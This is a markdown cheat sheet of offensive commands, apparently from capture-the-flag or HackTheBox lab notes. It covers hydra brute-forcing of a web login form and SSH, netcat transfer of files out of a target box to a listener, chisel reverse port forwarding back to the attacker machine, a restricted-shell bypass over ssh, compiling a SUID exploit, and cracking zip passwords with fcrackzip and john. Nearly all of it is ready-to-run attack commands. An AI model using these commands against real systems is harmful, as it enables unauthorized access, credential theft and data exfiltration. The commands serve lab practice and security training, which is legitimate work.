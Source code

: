 ```bash

hydra -l admin -P ~/git/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 64 # 64 threads
# change to https-web-form for port 443
```
## hydra ssh brute
```bash
hydra -l username -P wordlist.txt ssh <Target-IP> -s 22222
```

## get glibc version
```bash
ldd --version
```
## compile for 32 bit from a 64bit os, install `gcc-multilib` first
```bash
gcc -m32 -D_GNU_SOURCE -o suid32 suid.c
```
## transfer files through netcat
```bash
# start listening for download
nc -nlvp 9001 > dump.txt
# start uploading from target box
nc ip port < file.txt

```

## forward a remote port to local machine using chisel
```bash
./chisel_1.6.0_linux_amd64 server -p 9000 --reverse # from local machine
./chisel_1.6.0_linux_amd64 client LOCAL_MACHINE_IP:9000 R:5432:localhost:5432 # from target box, forward port 5432
```

## bypass restricted shell on ssh login :
```bash
ssh mindy@10.10.10.51 -t "bash --noprofile" 
```
## bruteforce zip file with fcrackzip
```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace.zip 
```
## bruteforce zip file with john
```bash
zip2john myfile.zip > johnkey
john johnkey --wordlist=/usr/share/wordlists/rockyou.txt
```
